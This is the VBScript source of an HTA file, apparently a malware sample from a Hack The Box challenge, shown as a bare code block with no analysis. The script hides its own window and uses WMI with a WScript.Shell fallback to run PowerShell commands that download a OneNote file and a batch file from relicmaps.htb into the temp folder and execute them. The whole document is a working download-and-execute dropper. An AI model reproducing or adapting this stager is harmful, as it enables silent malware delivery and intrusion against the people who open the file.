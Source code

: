 ```vb
<!DOCTYPE html>
<html>
<head>
<HTA:APPLICATION icon="#" WINDOWSTATE="normal" SHOWINTASKBAR="no" SYSMENU="no"  CAPTION="no" BORDER="none" SCROLL="no" />
<script type="text/vbscript">
' Exec process using WMI
Function WmiExec(cmdLine )
    Dim objConfig
    Dim objProcess
    Set objWMIService = GetObject("winmgmts:\\.\root\cimv2")
    Set objStartup = objWMIService.Get("Win32_ProcessStartup")
    Set objConfig = objStartup.SpawnInstance_
    objConfig.ShowWindow = 0
    Set objProcess = GetObject("winmgmts:\\.\root\cimv2:Win32_Process")
    WmiExec = dukpatek(objProcess, objConfig, cmdLine)
End Function
Private Function dukpatek(myObjP , myObjC , myCmdL )
    Dim procId
    dukpatek = myObjP.Create(myCmdL, Null, myObjC, procId)
End Function
Sub AutoOpen()
    ExecuteCmdAsync "cmd /c powershell Invoke-WebRequest -Uri http://relicmaps.htb/uploads/soft/topsecret-maps.one -OutFile $env:tmp\tsmap.one; Start-Process -Filepath $env:tmp\tsmap.one"
            ExecuteCmdAsync "cmd /c powershell Invoke-WebRequest -Uri http://relicmaps.htb/get/DdAbds/window.bat -OutFile $env:tmp\system32.bat; Start-Process -Filepath $env:tmp\system32.bat"
End Sub
' Exec process using WScript.Shell (asynchronous)
Sub WscriptExec(cmdLine )
    CreateObject("WScript.Shell").Run cmdLine, 0
End Sub
Sub ExecuteCmdAsync(targetPath )
    On Error Resume Next
    Err.Clear
    wimResult = WmiExec(targetPath)
    If Err.Number <> 0 Or wimResult <> 0 Then
        Err.Clear
        WscriptExec targetPath
    End If
    On Error Goto 0
End Sub
window.resizeTo 0,0
AutoOpen
Close
</script>
</head>
<body>
</body>
</html>"
```
